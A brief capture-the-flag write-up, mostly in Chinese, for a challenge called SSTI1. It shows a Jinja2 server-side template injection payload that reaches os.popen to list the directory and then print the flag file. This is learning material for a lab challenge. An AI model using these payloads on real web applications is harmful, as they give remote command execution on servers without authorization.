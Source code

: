 ## SSTI1
![image](https://github.com/user-attachments/assets/80582f85-c78e-4581-a1b1-978f59d5d673)
![image](https://github.com/user-attachments/assets/119de55d-3919-4169-a731-c784e14b5a0e)

### 解題過程

直接嘗試 RCE，列出目錄

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -al').read() }}
```

![image](https://github.com/user-attachments/assets/7fa5996c-37dc-4787-9e04-f8ff16551076)

確認目前目錄下存在 `flag` 檔案
接著將他輸出
```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```
![image](https://github.com/user-attachments/assets/8bccdcd5-e1bb-429e-a875-af32b20c4bb5)
flag get!
